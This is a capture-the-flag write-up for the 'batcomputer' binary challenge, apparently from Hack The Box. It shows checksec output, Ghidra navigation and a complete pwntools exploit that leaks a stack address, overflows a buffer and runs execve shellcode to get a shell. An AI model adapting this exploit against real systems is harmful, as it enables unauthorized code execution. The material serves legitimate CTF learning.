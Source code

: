 `File` command on the binary shows that it is stripped, meaning there are no debug symbols present. A stripped binary makes it more difficult to reverse engineer and the main function will be harder to find.

```assembly
# file batcomputer | tr "," "\n" 
batcomputer: ELF 64-bit LSB pie executable
 x86-64
 version 1 (SYSV)
 dynamically linked
 interpreter /lib64/ld-linux-x86-64.so.2
 BuildID[sha1]=497abb33ba7b0370d501f173facc947759aa4e22
 for GNU/Linux 3.2.0
 stripped
```

```assembly
# checksec batcomputer           
[*] '/root/Downloads/hackthebox/challenge/batcomputer/batcomputer'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
Because the binary is stripped we cant simply go to the main function. A simple work around is to look at the strings to see if we have encountered them before. In Ghidra, the strings window can be displayed by going to Window > Defined Strings. The screenshot above shows the string “Welcome to your Bat Computer.” selected. Following this string we land on what looks like our main function, FUN_001011ec (this may be different on your computer)




![image](https://user-images.githubusercontent.com/63084488/140466459-32617dda-1208-423c-aa91-4c77843b1d31.png)

exploit
```python
#!/usr/bin/python3

from pwn import *

def main():
    context.log_level='DEBUG'
    context.update(arch='amd64', os='linux')
    p = remote('docker.hackthebox.eu',31132)
    log.info("lets solve")

    # leak address of my buffer
    p.recvuntil('>')
    p.sendline('1')

    leak_address = p.recvline().split()[-1]
    leak_address = int(leak_address,16)
    log.success(f'leak_address: {hex(leak_address)}')

    # send evil payload
    # payload + eip + shellcode

    padding = b'A' * 84

    shellcode  = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91"
    shellcode += b"\xd0\x8c\x97\xff\x48\xf7\xdb\x53"
    shellcode += b"\x54\x5f\x99\x52\x57\x54\x5e\xb0"
    shellcode += b"\x3b\x0f\x05"

    buffer = flat (
            padding,
            p64(leak_address + 84+8),
            shellcode
            )

    p.recvuntil('>')
    p.send('2')
    p.recv()
    p.sendline('b4tp@$$w0rd!')
    p.recvline()
    p.send(buffer)

    # trigger buffer overflow
    p.recvline()
    p.sendline('3')

    p.interactive()

if __name__ == '__main__':
    main()
```
